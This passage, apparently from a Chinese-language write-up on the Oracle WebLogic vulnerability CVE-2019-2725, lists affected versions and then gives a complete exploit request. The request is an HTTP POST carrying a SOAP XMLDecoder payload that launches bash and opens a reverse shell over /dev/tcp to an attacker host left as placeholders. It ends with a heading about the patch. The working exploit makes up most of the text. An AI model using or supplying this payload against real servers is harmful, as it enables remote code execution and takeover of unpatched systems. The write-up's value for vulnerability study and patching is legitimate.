 - Oracle WebLogic Server 10.*
- Oracle WebLogic Server 12.1.3

CVE-2019-2725 exp如下

```
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 853

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1"> 
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/xxx/xxx 0>&1</string>
</void>
</array>
<void method="start"/> </void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

可能这里也会有一些字符的问题，可以参考最开始复现的poc

# CVE-2019-2725补丁
